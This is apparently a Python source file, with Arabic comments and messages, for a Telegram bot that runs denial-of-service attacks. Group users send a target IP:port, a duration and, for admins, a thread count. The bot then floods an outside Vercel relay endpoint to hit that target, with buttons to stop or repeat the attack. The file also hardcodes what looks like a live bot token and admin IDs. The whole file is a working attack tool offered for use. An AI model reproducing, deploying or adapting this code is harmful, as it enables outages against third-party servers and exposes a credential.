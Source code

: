 import requests
import time
import threading
import concurrent.futures
import telebot
from telebot import types
from datetime import datetime

# متغيرات لتتبع حالة الهجوم لكل مستخدم
user_attacks = {}

# قائمة بالمشرفين (يمكن إضافة معرفاتهم هنا)
ADMIN_IDS =  [6936867370, 5590831883]  # استبدل بمعرفات المشرفين الفعلية

def send_requests(url, user_id):
    while user_attacks.get(user_id, {}).get('attack_running', False):
        try:
            response = requests.get(url, timeout=5)
            if response.status_code == 200:
                print(f"Request sent to {url} by user {user_id}")
            else:
                print(f"Failed to send request to {url} by user {user_id}")
        except requests.exceptions.RequestException as e:
            print(f"Error: {e} by user {user_id}")
        time.sleep(0.01)

def start_attack(ip_port, duration, user_id, num_threads=10):
    user_attacks[user_id] = {
        'attack_running': True,
        'ip_port': ip_port,
        'duration': duration,
        'start_time': datetime.now().strftime('%Y-%m-%d %H:%M:%S'),
        'num_threads': num_threads
    }

    ip, port = ip_port.split(':')
    port = int(port)
    
    # استخدام الرابط الجديد من مشروع Vercel
    url = f'https://ping-docs-attack-fadai-rdp.vercel.app/send?ip={ip}&port={port}'
    
    with concurrent.futures.ThreadPoolExecutor(max_workers=num_threads) as executor:
        futures = [executor.submit(send_requests, url, user_id) for _ in range(num_threads)]
        
        time.sleep(duration)
        user_attacks[user_id]['attack_running'] = False
        
        for future in concurrent.futures.as_completed(futures):
            future.result()

# معرف التوكن الخاص بالبوت
API_TOKEN = '7711327868:AAE06zWPfYRCFn0Zlh8xx_k-fYf1ZYWub1w'
bot = telebot.TeleBot(API_TOKEN)

@bot.message_handler(commands=['start_attack'])
def start_attack_command(message):
    if message.chat.type != 'group' and message.chat.type != 'supergroup':
        return

    user_id = message.from_user.id
    if user_attacks.get(user_id, {}).get('attack_running', False):
        bot.reply_to(message, "لقد قمت بالفعل بتشغيل هجوم. لا يمكنك بدء هجوم آخر قبل إيقاف الهجوم الحالي.")
        return

    command_parts = message.text.split()
    if len(command_parts) != 2:
        bot.reply_to(message, "الرجاء إدخال الأمر بالشكل الصحيح: /start_attack <IP:Port>")
        return

    ip_port = command_parts[1]
    bot.reply_to(message, "الرجاء إدخال مدة الهجوم بالثواني:")
    
    bot.register_next_step_handler(message, process_duration, ip_port)

def process_duration(message, ip_port):
    if message.chat.type != 'group' and message.chat.type != 'supergroup':
        return

    try:
        duration = int(message.text)
        user_id = message.from_user.id
        
        # التحقق من صلاحية المستخدم (مشرف أم لا)
        if user_id in ADMIN_IDS:
            bot.reply_to(message, "الرجاء إدخال عدد الخيوط (Threads):")
            bot.register_next_step_handler(message, process_threads, ip_port, duration, user_id)
        else:
            num_threads = 7  # المستخدم العادي يستخدم 7 خيوط فقط
            start_attack_thread(ip_port, duration, user_id, num_threads, message)
        
    except ValueError:
        bot.reply_to(message, "الرجاء إدخال مدة صالحة بالثواني.")

def process_threads(message, ip_port, duration, user_id):
    if message.chat.type != 'group' and message.chat.type != 'supergroup':
        return

    try:
        num_threads = int(message.text)
        if num_threads <= 0:
            bot.reply_to(message, "عدد الخيوط يجب أن يكون أكبر من الصفر.")
            return
        
        start_attack_thread(ip_port, duration, user_id, num_threads, message)
        
    except ValueError:
        bot.reply_to(message, "الرجاء إدخال عدد خيوط صالح.")

def start_attack_thread(ip_port, duration, user_id, num_threads, message):
    user_attacks[user_id] = {'ip_port': ip_port, 'duration': duration, 'num_threads': num_threads}
    
    # تفاصيل الهجوم مع رموز تعبيرية
    attack_details = (
        f"🎯 *تفاصيل الهجوم:*\n"
        f"👤 *المستخدم:* {message.from_user.first_name}\n"
        f"📌 *الهدف:* {ip_port}\n"
        f"⏳ *المدة:* {duration} ثانية\n"
        f"🧵 *عدد الخيوط:* {num_threads}\n"
        f"⏰ *وقت البدء:* {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}"
    )
    
    markup = types.ReplyKeyboardMarkup(row_width=2)
    stop_button = types.KeyboardButton('إيقاف الهجوم')
    repeat_button = types.KeyboardButton('تكرار الهجوم')
    markup.add(stop_button, repeat_button)
    bot.send_message(message.chat.id, attack_details, reply_markup=markup)
    
    attack_thread = threading.Thread(target=start_attack, args=(ip_port, duration, user_id, num_threads))
    attack_thread.start()

@bot.message_handler(func=lambda message: message.text == 'إيقاف الهجوم')
def stop_attack(message):
    user_id = message.from_user.id
    if user_attacks.get(user_id, {}).get('attack_running', False):
        user_attacks[user_id]['attack_running'] = False
        bot.reply_to(message, "تم إيقاف الهجوم.")
    else:
        bot.reply_to(message, "لا يوجد هجوم قيد التشغيل.")

@bot.message_handler(func=lambda message: message.text == 'تكرار الهجوم')
def repeat_attack(message):
    user_id = message.from_user.id
    if user_id not in user_attacks or not user_attacks[user_id]:
        bot.reply_to(message, "لا يوجد هجوم سابق لتكراره.")
        return
    
    ip_port = user_attacks[user_id]['ip_port']
    duration = user_attacks[user_id]['duration']
    num_threads = user_attacks[user_id].get('num_threads', 10)  # استخدام القيمة الافتراضية إذا لم يتم تحديدها
    
    start_attack_thread(ip_port, duration, user_id, num_threads, message)

# بدء تشغيل البوت
bot.polling()
